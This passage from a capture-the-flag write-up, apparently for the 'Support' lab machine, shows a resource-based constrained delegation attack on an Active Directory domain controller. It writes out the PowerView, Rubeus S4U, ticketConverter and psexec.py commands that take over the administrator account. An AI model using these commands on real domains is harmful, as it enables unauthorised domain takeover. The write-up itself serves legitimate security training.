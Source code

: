 I need the SID of the computer object as well, so I’ll save it in a variable:
```
*Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
*Evil-WinRM* PS C:\programdata> $fakesid
S-1-5-21-1677581083-3380853377-188903654-1121
```

Now I’ll configure the DC to trust my fake computer to make authorization decisions on it’s behalf. These commands will create an ACL with the fake computer’s SID and assign that to the DC:
```
*Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
*Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

I’ll verify it worked:
```
*Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
*Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
*Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl


BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

’ll use Rubeus to get the hash of my fake computer account:
`*Evil-WinRM* PS C:\programdata> .\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb`

I need the one labeled rc4_hmac, which I’ll pass to Rubeus to get a ticket for administrator:
`*Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt`

I’ll grab the last ticket Rubeus generated, and copy it back to my machine, saving it as ticket.kirbi.b64, making sure to remove all spaces. I’ll base64 decode it into ticket.kirbi:
`base64 -d ticket.kirbi.b64 > ticket.kirbi`

Now I need to convert it to a format that Impact can use:
`ticketConverter.py ticket.kirbi ticket.ccache`

I can use this to get a shell using psexec.py:
`KRB5CCNAME=ticket.ccache python3 psexec.py support.htb/administrator@dc.support.htb -k -no-pass`

And grab root.txt!
